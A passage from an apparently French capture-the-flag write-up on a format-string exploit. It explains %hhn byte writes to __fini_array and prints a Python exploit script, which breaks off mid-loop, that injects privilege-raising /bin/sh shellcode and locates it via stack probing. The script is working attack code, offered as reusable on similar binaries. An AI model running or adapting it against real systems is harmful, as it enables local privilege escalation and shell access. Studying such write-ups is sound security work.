Le troisième octet à écrire est aussi `0xff`. Par conséquent la bonne pratique consisterait à enchaîner directement avec un autre `%hhn`. Mon exploit final ne procède pas de la sorte : il préfère écrire `0x100` octets supplémentaires. Le format `hhn` caste ensuite la nouvelle valeur sur un octet ce qui revient à la même valeur que la précédente (ça simplifie mon algo).  

Enfin il faut écrire `0xbf`. `0xff` étant supérieur on va écrire 192 octets (car 0x1bf - 0xff = 192). Comme expliqué à l'instant `0x1bf` sera casté en `0xbf`.  

Je vous invite à lire le code de mon exploit qui automatise l'attaque et fonctionne aussi bien sur *echo* (le programme du challenge) que sur le *trainer* (du moment que les deux sont compilés en *static*) et potentiellement sur d'autres programmes du même type :)  

L'adresse du shellcode est retrouvée en explorant la pile avec un format `%pos$.8x:%s` qui fonctionne pour tous les pointeurs trouvés en mémoire.  

```python
import subprocess
import sys
import os
import struct

if len(sys.argv) < 2:
    print "Usage {0} <binary>".format(sys.argv[0])
    sys.exit()

TARGET = sys.argv[1]
if not (TARGET.startswith("./") or TARGET.startswith("/")):
    TARGET = "./" + TARGET

# see http://www.shell-storm.org/shellcode/files/shellcode-399.php
SHELLCODE = "\x6a\x31\x58\x99\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80"

# Putting shellcode in environment
os.putenv("SHELLCODE", SHELLCODE)

# Looking for __fini_array_start address
lines = subprocess.check_output(['nm', TARGET]).split("\n")
fini_array_start = 0
for  line in lines:
    if not line.startswith("0"):
        continue
    addr, otype, name = line.split()
    if name == "__fini_array_start":
        fini_array_start = int(addr, 16)
        break

if not fini_array_start:
    print "[!] Can't find __fini_array_start address"
    sys.exit()
print "[*] __fini_array_start is at", hex(fini_array_start)

def just(i):
    return str(i).rjust(3, "0")

offset = 0

# Looking for shellcode in memory process using format string
for padding in xrange(0, 4):
    for i in xrange(500):
        try:
            output = subprocess.check_output([TARGET, '%{0}$.8x:%{0}$s'.format(just(i)) + "." * padding])
            if "SHELLCODE=" in output:
                for line in output.split("\n"):
                    if "SHELLCODE=" in line:
```